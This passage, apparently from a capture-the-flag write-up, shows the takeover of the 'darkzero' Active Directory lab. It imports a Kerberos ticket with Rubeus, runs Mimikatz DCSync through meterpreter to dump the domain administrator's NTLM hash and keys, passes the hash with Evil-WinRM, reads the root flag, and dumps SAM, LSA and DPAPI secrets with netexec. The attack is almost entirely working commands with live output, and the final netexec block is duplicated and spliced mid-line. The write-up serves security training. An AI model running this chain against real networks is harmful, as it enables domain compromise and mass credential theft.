jEyMjQ4WqcRGA8yMDI1MTAxMjExMjI0OFqoDhsMREFSS1pFUk8uSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxEQVJLWkVSTy5IVEI=" > C:\temp\dc01.b64
```

```cmd
C:\temp>Rubeus.exe ptt /ticket:doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDERBUktaRVJPLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMREFSS1pFUk8uSFRCo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDYPPzgInQu2joilihgD51S/tHe9LnYS/EqXm5T1cl82tmQx7MgKt03n8Lf7b4RE3lTxRinPevS9AHAD78RmgMr6R4/b+jxUZLrK7x+WrAHg70iX7q6/9EBj3wUE5ISrkhnhHUmM2e8Xd6dug+3RhbiC0McqfsHhHA3n/enCq+vCkhSkcv7NZF3TGHbU/wIK0rFpwacqxIUbgvWkwVuG+ds0aQG3/5WQXnNpOZ9KUOl3xC+8MhLlXkJokCa4VvKSFVVe96uFHLsSiTzKffWz5OIysaUJq5rRc4+fb/QVpSlyGuoi2MJnDocvtFPRtH/6B/01lv2VnKDUh3rebkMwl/bZi+NUuHSr8b97UpWqLAIiO7W3UWaqG531rBAJ37LxrRWC0xjK7egOSZbmq+Wn2gyKd1Xl+/XNPUR9KK83L6dW+IOLSYcAmZmv1VbanvnRs1WDsNic2Il6sGluHye2ws/JXMNgHSA8IRpGlRU9zxS3E+/hmz7itLjk0nQURlJzjoQearRpEIUv0V4Md8p5GRnqg6hbmkbd22UKKVtHOEU1bwEGJeAZfSHrqx6em5hgLp0wr/Bl7pMIuBEbXPHFjb0a0JNWmBo51HWXer0Jju5ZWwK+RzadXiOkv+n+SlMoDvvFOqfb9ARJ+HiIgalndcR9FjeciBPa96tz+5wbEsUhFY7hfdkMkufN1zcxA1nQGYUAdrVcU9J97lLGs1qG5Tk9SKlYrTT3eupNc7+PzVNOXG211ht9TNigrNGX+2gz5nvLJbOqTB3QHbWvAFufV2fIo8BZIh44iaDUKyX5uMJVOPpU5E6jKmZpMrPCX/Y6uhZSg6DltuFNh3SnUM9e3zGRS6irqMdynYQHu3916o3t2ZB5Xp8PuhvnaO43Q9zeCEwmFVSJ4XvtezFBUXHjBtGBD05WqnqwBeZ5ZmRVwRNdrrWChqbR8A0yssIUeOzn2lqMWwYPF0/VLvP7Z3869T7mq6T2gwKhv5rKASSYW0oCPaP2YqoJoZdNi/T9QF8OXodzKnJ+e22cPuzb3/3YNiYrhf3IkcklB0rlyLMn9WdjIL2PhJH28/LwmcDDWQicKSp+0AJqL7LOJMT2zrJUEQ18g5Esh248kM2t469wGDA7UoRWdROJl+l31I5JEezxEoOWVQrqzlUJEePyheRoI5ta128sgYeVqbfVhYojgOgP9aJc0XgHXc6Q9YxvO+8sKqRnPQM1Nu5o1sNivB7vSYMwNk3xBIkzgcQHQuivOSou4fhPZpv/ncGUDjRdvJpctNDNTMqhQoVCHqlb/Jr6bSebJwz88VF2fZDwTziz9YP13CRcFwb/ZH/rOKEiK8EJ9dTChEqDFeWZos0QffRUdmOpDPCQWLt/yPHCccVg1VlpL6gBZBEi9FMcpuFhiGzjivykPhADDJjO/F/eoOsC5cEWcW0yf9fSo4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQg+jdktWSWR/d4MMioGgZigZAgoExtvibbf7tLau8mX4ehDhsMREFSS1pFUk8uSFRCohIwEKADAgEBoQkwBxsFREMwMSSjBwMFAGChAAClERgPMjAyNTEwMDUxMTIyNDhaphEYDzIwMjUxMDA1MjEyMjQ4WqcRGA8yMDI1MTAxMjExMjI0OFqoDhsMREFSS1pFUk8uSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxEQVJLWkVSTy5IVEI=
Rubeus.exe ptt /ticket:doIFjDCCBYigAwIBBaEDAgEWooIElDCCBJBhggSMMIIEiKADAgEFoQ4bDERBUktaRVJPLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMREFSS1pFUk8uSFRCo4IETDCCBEigAwIBEqEDAgECooIEOgSCBDYPPzgInQu2joilihgD51S/tHe9LnYS/EqXm5T1cl82tmQx7MgKt03n8Lf7b4RE3lTxRinPevS9AHAD78RmgMr6R4/b+jxUZLrK7x+WrAHg70iX7q6/9EBj3wUE5ISrkhnhHUmM2e8Xd6dug+3RhbiC0McqfsHhHA3n/enCq+vCkhSkcv7NZF3TGHbU/wIK0rFpwacqxIUbgvWkwVuG+ds0aQG3/5WQXnNpOZ9KUOl3xC+8MhLlXkJokCa4VvKSFVVe96uFHLsSiTzKffWz5OIysaUJq5rRc4+fb/QVpSlyGuoi2MJnDocvtFPRtH/6B/01lv2VnKDUh3rebkMwl/bZi+NUuHSr8b97UpWqLAIiO7W3UWaqG531rBAJ37LxrRWC0xjK7egOSZbmq+Wn2gyKd1Xl+/XNPUR9KK83L6dW+IOLSYcAmZmv1VbanvnRs1WDsNic2Il6sGluHye2ws/JXMNgHSA8IRpGlRU9zxS3E+/hmz7itLjk0nQURlJzjoQearRpEIUv0V4Md8p5GRnqg6hbmkbd22UKKVtHOEU1bwEGJeAZfSHrqx6em5hgLp0wr/Bl7pMIuBEbXPHFjb0a0JNWmBo51HWXer0Jju5ZWwK+RzadXiOkv+n+SlMoDvvFOqfb9ARJ+HiIgalndcR9FjeciBPa96tz+5wbEsUhFY7hfdkMkufN1zcxA1nQGYUAdrVcU9J97lLGs1qG5Tk9SKlYrTT3eupNc7+PzVNOXG211ht9TNigrNGX+2gz5nvLJbOqTB3QHbWvAFufV2fIo8BZIh44iaDUKyX5uMJVOPpU5E6jKmZpMrPCX/Y6uhZSg6DltuFNh3SnUM9e3zGRS6irqMdynYQHu3916o3t2ZB5Xp8PuhvnaO43Q9zeCEwmFVSJ4XvtezFBUXHjBtGBD05WqnqwBeZ5ZmRVwRNdrrWChqbR8A0yssIUeOzn2lqMWwYPF0/VLvP7Z3869T7mq6T2gwKhv5rKASSYW0oCPaP2YqoJoZdNi/T9QF8OXodzKnJ+e22cPuzb3/3YNiYrhf3IkcklB0rlyLMn9WdjIL2PhJH28/LwmcDDWQicKSp+0AJqL7LOJMT2zrJUEQ18g5Esh248kM2t469wGDA7UoRWdROJl+l31I5JEezxEoOWVQrqzlUJEePyheRoI5ta128sgYeVqbfVhYojgOgP9aJc0XgHXc6Q9YxvO+8sKqRnPQM1Nu5o1sNivB7vSYMwNk3xBIkzgcQHQuivOSou4fhPZpv/ncGUDjRdvJpctNDNTMqhQoVCHqlb/Jr6bSebJwz88VF2fZDwTziz9YP13CRcFwb/ZH/rOKEiK8EJ9dTChEqDFeWZos0QffRUdmOpDPCQWLt/yPHCccVg1VlpL6gBZBEi9FMcpuFhiGzjivykPhADDJjO/F/eoOsC5cEWcW0yf9fSo4HjMIHgoAMCAQCigdgEgdV9gdIwgc+ggcwwgckwgcagKzApoAMCARKhIgQg+jdktWSWR/d4MMioGgZigZAgoExtvibbf7tLau8mX4ehDhsMREFSS1pFUk8uSFRCohIwEKADAgEBoQkwBxsFREMwMSSjBwMFAGChAAClERgPMjAyNTEwMDUxMTIyNDhaphEYDzIwMjUxMDA1MjEyMjQ4WqcRGA8yMDI1MTAxMjExMjI0OFqoDhsMREFSS1pFUk8uSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxEQVJLWkVSTy5IVEI=

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

A quick verification that everything worked according to plan.

```cmd
C:\temp>Rubeus.exe klist
Rubeus.exe klist

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 


Action: List Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x57b01
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 10/4/2025 7:17:07 PM
  LogonServer              : 
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : 

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:17:07 PM ; 10/5/2025 5:02:37 AM ; 12/31/1600 4:00:00 PM
      Server Name       : GC/DC02.darkzero.ext/darkzero.ext @ DARKZERO.EXT
      Client Name       : DC02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : Administrator
  Domain                   : darkzero-ext
  LogonId                  : 0x364ea
  UserSID                  : S-1-5-21-1969715525-31638512-2552845157-500
  AuthenticationPackage    : Kerberos
  LogonType                : Batch
  LogonTime                : 10/4/2025 7:05:20 PM
  LogonServer              : DC02
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : Administrator@darkzero.ext

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:05:20 PM ; 10/5/2025 5:05:20 AM ; 10/11/2025 7:05:20 PM
      Server Name       : krbtgt/DARKZERO.EXT @ DARKZERO.EXT
      Client Name       : Administrator @ DARKZERO.EXT
      Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)

  UserName                 : svc_sql
  Domain                   : darkzero-ext
  LogonId                  : 0x29849
  UserSID                  : S-1-5-21-1969715525-31638512-2552845157-1103
  AuthenticationPackage    : Kerberos
  LogonType                : Service
  LogonTime                : 10/4/2025 7:04:16 PM
  LogonServer              : DC02
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : svc_sql@darkzero.ext

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 8:07:53 PM ; 10/5/2025 6:06:37 AM ; 10/11/2025 8:06:37 PM
      Server Name       : krbtgt/DARKZERO.HTB @ DARKZERO.EXT
      Client Name       : svc_sql @ DARKZERO.EXT
      Flags             : name_canonicalize, pre_authent, renewable, forwardable (40a10000)

    [1] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 8:07:53 PM ; 10/5/2025 6:06:37 AM ; 10/11/2025 8:06:37 PM
      Server Name       : ldap/dc01.darkzero.htb @ DARKZERO.HTB
      Client Name       : svc_sql @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

    [2] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 8:06:37 PM ; 10/5/2025 6:06:37 AM ; 10/11/2025 8:06:37 PM
      Server Name       : cifs/dc01.darkzero.htb @ DARKZERO.HTB
      Client Name       : svc_sql @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x2314c
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 10/4/2025 7:02:37 PM
  LogonServer              : 
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : 

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:02:37 PM ; 10/5/2025 5:02:37 AM ; 12/31/1600 4:00:00 PM
      Server Name       : ldap/DC02.darkzero.ext @ DARKZERO.EXT
      Client Name       : DC02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x3e4
  UserSID                  : S-1-5-20
  AuthenticationPackage    : Negotiate
  LogonType                : Service
  LogonTime                : 10/4/2025 7:01:53 PM
  LogonServer              : 
  LogonServerDNSDomain     : 
  UserPrincipalName        : DC02$@darkzero.ex

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 8:02:05 PM ; 10/5/2025 6:02:05 AM ; 10/11/2025 8:02:05 PM
      Server Name       : krbtgt/DARKZERO.EXT @ DARKZERO.EXT
      Client Name       : dc02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, pre_authent, renewable, forwarded, forwardable (60a10000)

    [1] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 8:02:05 PM ; 10/5/2025 6:02:05 AM ; 10/11/2025 8:02:05 PM
      Server Name       : DNS/dc02.darkzero.ext @ DARKZERO.EXT
      Client Name       : dc02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : Administrator
  Domain                   : darkzero-ext
  LogonId                  : 0x70db7b
  UserSID                  : S-1-5-21-1969715525-31638512-2552845157-500
  AuthenticationPackage    : Kerberos
  LogonType                : Batch
  LogonTime                : 10/5/2025 4:05:20 AM
  LogonServer              : DC02
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : Administrator@darkzero.ext

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/5/2025 4:05:20 AM ; 10/5/2025 2:05:20 PM ; 10/12/2025 4:05:20 AM
      Server Name       : krbtgt/DARKZERO.EXT @ DARKZERO.EXT
      Client Name       : Administrator @ DARKZERO.EXT
      Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x28ac2
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 10/4/2025 7:03:38 PM
  LogonServer              : 
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : 

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:03:38 PM ; 10/5/2025 5:02:37 AM ; 10/11/2025 7:02:37 PM
      Server Name       : krbtgt/DARKZERO.EXT @ DARKZERO.EXT
      Client Name       : DC02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, pre_authent, renewable, forwarded, forwardable (60a10000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x2763e
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 10/4/2025 7:02:46 PM
  LogonServer              : 
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : 

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:02:37 PM ; 10/5/2025 5:02:37 AM ; 12/31/1600 4:00:00 PM
      Server Name       : LDAP/DC02.darkzero.ext/darkzero.ext @ DARKZERO.EXT
      Client Name       : DC02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x22cbc
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 10/4/2025 7:02:37 PM
  LogonServer              : 
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : 

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:02:37 PM ; 10/5/2025 5:02:37 AM ; 12/31/1600 4:00:00 PM
      Server Name       : LDAP/DC02.darkzero.ext/darkzero.ext @ DARKZERO.EXT
      Client Name       : DC02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x22b29
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 10/4/2025 7:02:37 PM
  LogonServer              : 
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : 

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:02:37 PM ; 10/5/2025 5:02:37 AM ; 12/31/1600 4:00:00 PM
      Server Name       : ldap/DC02.darkzero.ext @ DARKZERO.EXT
      Client Name       : DC02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x226d8
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 10/4/2025 7:02:37 PM
  LogonServer              : 
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : 

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:02:37 PM ; 10/5/2025 5:02:37 AM ; 12/31/1600 4:00:00 PM
      Server Name       : ldap/DC02.darkzero.ext @ DARKZERO.EXT
      Client Name       : DC02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x223bf
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 10/4/2025 7:02:37 PM
  LogonServer              : 
  LogonServerDNSDomain     : DARKZERO.EXT
  UserPrincipalName        : 

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/4/2025 7:02:37 PM ; 10/5/2025 5:02:37 AM ; 12/31/1600 4:00:00 PM
      Server Name       : ldap/DC02.darkzero.ext @ DARKZERO.EXT
      Client Name       : DC02$ @ DARKZERO.EXT
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

  UserName                 : DC02$
  Domain                   : darkzero-ext
  LogonId                  : 0x3e7
  UserSID                  : S-1-5-18
  AuthenticationPackage    : Negotiate
  LogonType                : 0
  LogonTime                : 10/4/2025 7:01:50 PM
  LogonServer              : 
  LogonServerDNSDomain     : darkzero.ext
  UserPrincipalName        : DC02$@darkzero.ext

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/5/2025 4:22:48 AM ; 10/5/2025 2:22:48 PM ; 10/12/2025 4:22:48 AM
      Server Name       : krbtgt/DARKZERO.HTB @ DARKZERO.HTB
      Client Name       : DC01$ @ DARKZERO.HTB
      Flags             : name_canonicalize, pre_authent, renewable, forwarded, forwardable (60a10000)
```

There it was, the `Client Name` of `DC01$`.

```shell
<--- CUT FOR BREVITY --->
UserName                 : DC02$
Domain                   : darkzero-ext
LogonId                  : 0x3e7
...
    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 10/5/2025 4:22:48 AM ; 10/5/2025 2:22:48 PM ; 10/12/2025 4:22:48 AM
      Server Name       : krbtgt/DARKZERO.HTB @ DARKZERO.HTB
      Client Name       : DC01$ @ DARKZERO.HTB
      Flags             : name_canonicalize, pre_authent, renewable, forwarded, forwardable (60a10000)
<--- CUT FOR BREVITY --->
```

### DCSync

And as last step we loaded `mimikatz` once more but this time performed the `DCSync` from within `DC02` and grabbed the `hash` for `Administrator` on `DC01`.

```shell
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

```shell
meterpreter > kiwi_cmd "lsadump::dcsync /domain:darkzero.htb /user:Administrator"
[DC] 'darkzero.htb' will be the domain
[DC] 'DC01.darkzero.htb' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 9/10/2025 9:42:44 AM
Object Security ID   : S-1-5-21-1152179935-589108180-1989892463-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 5917507bdf2ef2c2b0a869a1cba40726
    ntlm- 0: 5917507bdf2ef2c2b0a869a1cba40726
    ntlm- 1: 5917507bdf2ef2c2b0a869a1cba40726
    lm  - 0: 58ef66870a9927dd48b3bd9d7e03845f

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : eb8f12be2ec1b48c9b9ed472823e4e60

* Primary:Kerberos-Newer-Keys *
    Default Salt : DARKZERO.HTBAdministrator
    Default Iterations : 4096
    Credentials
      des_cbc_md5_nt    (4096) : 2f8efea2896670fa78f4da08a53c1ced59018a89b762cbcf6628bd290039b9cd
      unknow            (4096) : a23315d970fe9d556be03ab611730673
      aes256_hmac       (4096) : d4aa4a338e44acd57b857fc4d650407ca2f9ac3d6f79c9de59141575ab16cabd
      aes128_hmac       (4096) : b1e04b87abab7be2c600fc652ac84362
      rc4_hmac_nt       (4096) : 5917507bdf2ef2c2b0a869a1cba40726
    ServiceCredentials
      des_cbc_md5_nt    (4096) : 2f8efea2896670fa78f4da08a53c1ced59018a89b762cbcf6628bd290039b9cd
      unknow            (4096) : a23315d970fe9d556be03ab611730673
      aes256_hmac       (4096) : d4aa4a338e44acd57b857fc4d650407ca2f9ac3d6f79c9de59141575ab16cabd
      aes128_hmac       (4096) : b1e04b87abab7be2c600fc652ac84362
    OldCredentials
      des_cbc_md5_nt    (4096) : 298bc77657a3737b452bb09be407d46b795774e5c3bbfcc68e8f0a4015b59459
      unknow            (4096) : d1d84cca796daa8d9dda56c9fbd29110
      aes256_hmac       (4096) : fe0ba028010ee4f408ebc846d3f480c1880a4f0274acdb226d3afcdc3595dc21
      aes128_hmac       (4096) : a2a7e0e9a4b5ade57242b3e97756dca3
      rc4_hmac_nt       (4096) : 5917507bdf2ef2c2b0a869a1cba40726
    OlderCredentials
      des_cbc_md5_nt    (4096) : d828032ab803aa2d52a9db423de22fe27af55a9fd2101037b106e856ef515216
      unknow            (4096) : 5f9f4fbb6a67b92e5ec7b34c3ba9d322
      aes256_hmac       (4096) : ead37d7deb508c2ad7fd748960cb115d0857b23d95a69cfc95fa693d9d2ca987
      aes128_hmac       (4096) : d027d6dfa67d37190ea37579b948874a
      rc4_hmac_nt       (4096) : cf3a5525ee9414229e66279623ed5c58

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  059775b62c039e3def2ae0dd3cf5fdeb
    02  cd2cdff8fba2798b8f5736af3b0617e2
    03  f807da3ed4e91404a7b9e87915b92114
    04  059775b62c039e3def2ae0dd3cf5fdeb
    05  3209c6585c69e581da8b23ad280d48aa
    06  c75dced3815eff7f99a6ef67018be23e
    07  0fca3845bf99227b23ac897eb7e7246d
    08  7d1a78d4cc10d91caf276f70790866c2
    09  cec6c4e88dbb2e0b2cf3c87ff44cd372
    10  81ee716a17e92b26d65b932c55ceaa54
    11  5a808b7dd291f85e64e53439a7520d42
    12  7d1a78d4cc10d91caf276f70790866c2
    13  c421d8af0cfd4330cf4312d05e135127
    14  47b49319d1bb83cc2f6fc2767acb9dc6
    15  13ad2c29ee304491557ebfef55693708
    16  7f8a2135bf0aac335296f86f84660fb0
    17  fa7267a1c55c45633b83a34d05f0056f
    18  b8f360edd930f882d000d03bc07d0973
    19  8ed43db2829682a63b52f73037ea654b
    20  276189d18309b00e3e36f4fc3b936677
    21  1726c96c2c2998836f09fe572eada8d9
    22  bdbd5d774b16233eab9c00804b12601a
    23  9131f6686281d29fc473b940d1a1c022
    24  2e1e69803702ba4e530debd3b5d5ee74
    25  1b79e43d6f356574fdab541ec4ebe0b8
    26  e64552e3066c37621f8a7132b64b3a15
    27  bd8a3360652182c95cbc4c54553f330f
    28  9e10974f986144193c8499681c658880
    29  61c17ed3d006e5d2d56c2b2f86e0bdd2
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.100.222 -u Administrator -H 5917507bdf2ef2c2b0a869a1cba40726
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
ebee745393ab05cb873301fa21401ebe
```

## Post Exploitation

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb dc01.darkzero.htb -u 'Administrator' -H 5917507bdf2ef2c2b0a869a1cba40726 --sam --lsa --dpapi
SMB         10.129.100.222  445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:False) 
SMB         10.129.100.222  445    DC01             [+] darkzero.htb\Administrator:5917507bdf2ef2c2b0a869a1cba40726 (Pwn3d!)
SMB         10.129.100.222  445    DC01             [*] Dumping SAM hashes
SMB         10.129.100.222  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:5917507bdf2ef2c2b0a869a1cba40726:::
SMB         10.129.100.222  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.100.222  445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[13:34:58] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                                                                                                                                                                                                                 regsecrets.py:436
SMB         10.129.100.222  445    DC01             [+] Added 3 SAM hashes to the database
SMB         10.129.100.222  445    DC01             [+] Dumping LSA secrets
SMB         10.129.100.222  445    DC01             darkzero\DC01$:aes256-cts-hmac-sha1-96:25e1e7b4219c9b414726983f0f50bbf28daa11dd4a24eed82c451c4d763c9941
SMB         10.129.100.222  445    DC01             darkzero\DC01$:aes128-cts-hmac-sha1-96:9996363bffe713a6777597c876d4f9db
SMB         10.129.100.222  445    DC01             darkzero\DC01$:des-cbc-md5:d0977abf51b92f26
SMB         10.129.100.222  445    DC01             darkzero\DC01$:plain_password_hex:3d80df5c5563bd7ceaff858df6df6b78d62abac7e53d1897ba5662fbdb87b1e9aadbffcba05119d4da831820ec0eceb6e3758dae71b091fc50432581b40e46c00fa5505867efd64172e623340589ad7a75ff9b1ac55bc894cbc0f8c5cade43f103d550451df40af3c54e5dc7de5056810ed727a12a0656f744b2a6abb9ff611b24cb4ef0f2009c896cb2b651d2476470b2a49a873198c721503f80e97336d1f03bc3ea3f11299c0660e8d2d9584f38117ab5e059a6ba76d1981b08e1f5573963f57e8dbed5115766a568d6cc73d2e08131b5d7f32d4707ce79621bd8edf117c6c5d96a09f79813271de5a3a521c3676543d855f5ce14d6effddf7dbcac00046e30c8f0359ed9ea3b59fb240e933bad36d27444782ee78616da5b403a016f019079b02be3642cf3010d6b24222e27b2b5a01df6dbe567cdbab8d93b9410771d359028f951910c3681d59bdac18bb2f98f61ddc7660f147ccb21742fe11b3516c73177f83f7a1ccff6a4a96ca887bb54dc9c247c791589e25598dfebad0d5a173e0b81ac301d5bfae9034ea7c24a753edb71028f5691a38bf408220edd67ed1f1c08bcc638a8f9488ac7098aaa8bd96644e7eb7139cbe241394c230b78ab2f6c47158c3ec51179cfb998ed76289a8a5b56bf72a2ab66430f8cf6cd959a4c830e21267614283662701fce52614dc9b4a1d3d3c205bf5aa8f7c33ca89d09f20c790a
SMB         10.129.100.222  445    DC01             darkzero\DC01$:aad3b435b51404eeaad3b435b51404ee:d02e3fe0986e9b5f013dad12b2350b3a:::
SMB         10.129.100.222  445    DC01             dpapi_machinekey:0x48249fb0f4cf23ecbef54affc2b21d65717bf7df
dpapi_userkey:0xb8820f0412fc851cca8aa426248e7f37af5dd0b2
SMB         10.129.100.222  445    DC01             [+] Dumped 6 LSA secrets to /home/kali/.nxc/logs/lsa/DC01_10.129.100.222_2025-10-05_133454.secrets and /home/kali/.nxc/logs/lsa/DC01_10.129.100.222_2025-10-05_133454.cached
SMB         10.129.100.222  445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.100.222  445    DC01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.129.100.222  445    DC01             [+] Got 6 decrypted masterkeys. Looting secrets...
SMB         10.129.100.222  445    DC01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{BBB4AFA3-9E16-462E-A716-7A304A124E2F} - darkzero\Administrator:oV4qpuWWgvV!┌──(kali㉿kali)-[~]
└─$ netexec smb dc01.darkzero.htb -u 'Administrator' -H 5917507bdf2ef2c2b0a869a1cba40726 --sam --lsa --dpapi
SMB         10.129.100.222  445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:False) 
SMB         10.129.100.222  445    DC01             [+] darkzero.htb\Administrator:5917507bdf2ef2c2b0a869a1cba40726 (Pwn3d!)
SMB         10.129.100.222  445    DC01             [*] Dumping SAM hashes
SMB         10.129.100.222  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:5917507bdf2ef2c2b0a869a1cba40726:::
